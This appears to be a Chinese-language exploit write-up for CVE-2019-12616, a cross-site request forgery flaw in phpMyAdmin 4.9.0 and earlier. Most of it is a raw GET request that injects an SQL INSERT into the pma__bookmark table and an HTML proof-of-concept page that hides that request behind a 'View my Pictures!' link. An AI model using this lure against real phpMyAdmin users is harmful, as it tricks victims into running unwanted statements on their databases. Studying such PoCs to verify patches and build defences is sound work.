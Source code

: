 # CVE-2019-12616 Phpmyadmin CSRF

### 一、漏洞简介

4.9.0之前在phpmyadmin中发现了一个问题。发现一个漏洞，允许攻击者对phpMyAdmin用户触发CSRF攻击。攻击者可以欺骗用户。

例如通过指向受害者的phpMyAdmin数据库的一个损坏的<img>标记，并且攻击者可以潜在地将有效负载（例如特定的插入或删除语句）传递给受害者。

### 二、漏洞影响

Phpmyadmin <= 4.9.0

### 三、复现过程


```bash
GET http://url:9000/tbl_sql.php?sql_query=INSERT+INTO+%60pma__bookmark%60+(%60id%60%2C+%60dbase%60%2C+%60user%60%2C+%60label%60%2C+%60query%60)+VALUES+(DAYOFWEEK(%27%27)%2C+%27%27%2C+%27%27%2C+%27%27%2C+%27%27)&show_query=1&db=phpmyadmin&table=pma__bookmark HTTP/1.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; pmaUser-1=%7B%22iv%22%3A%22M16ZzlA0rqF9BZ1jFsssjQ%3D%3D%22%2C%22mac%22%3A%22804941d12fceca0997e181cbcb8427d68c668240%22%2C%22payload%22%3A%22mD9juTxAYhC7lA7XPWHWOw%3D%3D%22%7D; phpMyAdmin=9bdd66557e399fc1447bf253bc2dc133
Upgrade-Insecure-Requests: 1
Host: localhost:9000
```

攻击者可以很容易地创建一个假超链接，其中包含希望代表用户执行的请求，这样就可能由于错误地使用http方法而导致csrf攻击

**PoC：**


```html
<!doctype html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <title>POC CVE-2019-12616</title>
</head>

<body>
<a href="http://url:9000/tbl_sql.php?sql_query=INSERT+INTO+`pma__bookmark`+(`id`%2C+`dbase`%2C+`user`%2C+`label`%2C+`query`)+VALUES+(DAYOFWEEK('')%2C+''%2C+''%2C+''%2C+'')&show_query=1&db=phpmyadmin&table=pma__bookmark">View my Pictures!</a>
</body>
</html>
```